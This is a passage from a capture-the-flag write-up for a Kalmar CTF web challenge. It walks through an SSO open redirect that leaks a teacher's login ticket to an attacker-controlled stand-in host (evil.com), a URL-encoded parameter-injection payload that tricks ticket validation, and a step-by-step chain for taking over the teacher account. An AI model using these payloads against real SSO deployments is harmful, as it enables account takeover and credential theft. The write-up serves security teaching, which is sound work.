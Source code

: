 So by redirecting someone to `http://sso.chal-kalmarc.tf/login?service=http://evil.com` we are able to induce a `GET` request to `http://evil.com?ticket=TGT-1234...`, which contains a ticket to `http://evil.com` in it.

### A Ticket to Another Service

So we might be able to get a ticket to another service. What can we do with it?

We still haven't tried to attack the ticket validation process of `grade.chal-kalmarc.tf`, so lets put ourselves in the developer's shoes and try to think about how they'd implement it.

In pseudocode, it might be implemented in a way resembling:
```python
if path == "/login" and "ticket" in params
    response = get("http://sso.chal-kalmarc.tf/validate?ticket=" + params["ticket"] + "&service=http://grade.chal-kalmarc.tf/login")
    if response.valid
        return autherized
```

And if that's the case (and as you will see, it is the case), we might be able to inject params and modify the structure of the URL.
When submitting a ticket with the following value: `TGT&service=abc#`, the theoretical validation process as showed in the pseudocode above will generate the following `GET` request:
```
GET /validate?ticket=TGT&service=abc#&service=http://grade.chal-kalmarc.tf/login
```
In that case, we were able to make `grade.chal-kalmarc.tf` validate a different service - Everything coming after the hash sign `#` is ignored, and the service being requested for validation is `abc`.

So, by submiting a valid ticket for the service `http://evil.com` in the following manner: `http://grade.chal-kalmarc.tf/login?ticket=TGT-1234...%26service%3dhttp://evil.com%23`, we are able to make `grade.chal-kalmarc.tf` validate the ticket against the service `http://evil.com`, which should come out as valid.

Notice that I URL-encoded key characters in the example above, `&`, `=` and `#`.


### The Attack Chain to Login as a Teacher

So right now, our attack chain looks something like this:

1. Set the `picture` field in the profile picture upload `HTTP` request to a URL structured like this: `http://sso.chal-kalmarc.tf/login?service=http://evil.com`, in which `evil.com` is a domain under our control.
2. We will press the `whine` button which will make the teacher view the grades, sending a `GET` request to the URL specified above.
3. Because the teacher is already logged in to the `sso` service, they should be redirected to `http://evil.com?ticket=TGT-1234...`, with a ticket valid for the account of the teacher and `http://evil.com`.
4. We listen for incoming requests on `http://evil.com`, and when one comes we save the ticket attached to it.
5. We then request the following URL from our own web browser, with the ticket we just got:  `http://grade.chal-kalmarc.tf/login?ticket=TGT-1234...%26service%3dhttp://evil.com%23`
4. The `grade` site makes the following `GET` request to `http://sso.chal-kalmarc.tf/validate?ticket=TGT-1234...&service=http://evil.com#&service=http://grade.chal-kalmarc.tf/login`
5. The `sso` service returns that the ticket is valid, as it thinks it's being authenticated against the `http://evil.com` service.
